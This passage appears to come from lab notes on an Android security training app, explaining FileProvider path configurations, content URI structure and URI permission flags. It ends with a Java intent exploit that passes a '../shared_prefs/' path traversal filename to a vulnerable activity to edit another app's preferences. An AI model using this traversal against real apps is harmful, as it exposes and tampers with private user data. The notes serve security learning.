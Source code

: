 ```java
        setResult(-1, intent2);
    }

```
- Compare the filepaths.xml to the rootpaths.xml file provider configuration. Why is the `<root-path>` considered "insecure"?

- filepaths.xml:
```xml
<?xml version="1.0" encoding="utf-8"?>
<paths>
    <files-path name="flag_files" path="flags/"/>
    <files-path name="other_files" path="."/>
</paths>
```
- Remember that the file provider configuration is used to generate file sharing URIs such as `content://io.hextree.files/other_files/secret.txt`. 

- rootpaths.xml:
```xml
<?xml version="1.0" encoding="utf-8"?>
<paths>
    <root-path name="root_files" path="/"/>
</paths>
```
- The file provider with a `<root-path>` configuration will generated URIs like this `content://io.hextree.files/root_files/data/data/io.hextree.attacksurface/files/secret.txt`. If we decode these sections we can see that this provider can map files of the entire filesystem.

    - `content://` it's a content provider
    - `io.hextree.root` the authority from the android manifest
    - `root_files` which configuration entry is used
    - `/data/data/io.hextree.attacksurface/files/secret.txt` the path of the file relative to the configured path, which is mapped to the filesystem root!
- In itself the `<root-path>` configuration is not actually insecure, as long as only trusted files are shared. But if the app allows an attacker to control the path to any file, it can be used to expose arbitrary internal files.

### FileProvider Write Access
- Besides sharing content providers with read permissions, an app can also share write permissions
```java
// ...
intent.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
intent.addFlags(Intent.FLAG_GRANT_WRITE_URI_PERMISSION);
```

> [!NOTE]
> In decompiled code the integer constants FLAG_GRANT_READ_URI_PERMISSION are probably directly referenced. Which means:
> `addFlags(1)` = FLAG_GRANT_READ_URI_PERMISSION
> `addFlags(2)` = FLAG_GRANT_WRITE_URI_PERMISSION
> `addFlags(3)` = both FLAG_GRANT_READ_URI_PERMISSION | FLAG_GRANT_WRITE_URI_PERMISSION

- We can exploit the same vulnerable class to access the shared preferences and edit them as follows:
```java
Button button = findViewById(R.id.click);
        button.setOnClickListener(v -> {
            Intent intent = new Intent();
            intent.putExtra("filename", "../shared_prefs/Flag36Preferences.xml");
            intent.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag35Activity");
            startActivityForResult(intent, 42);
        });

    @Override
```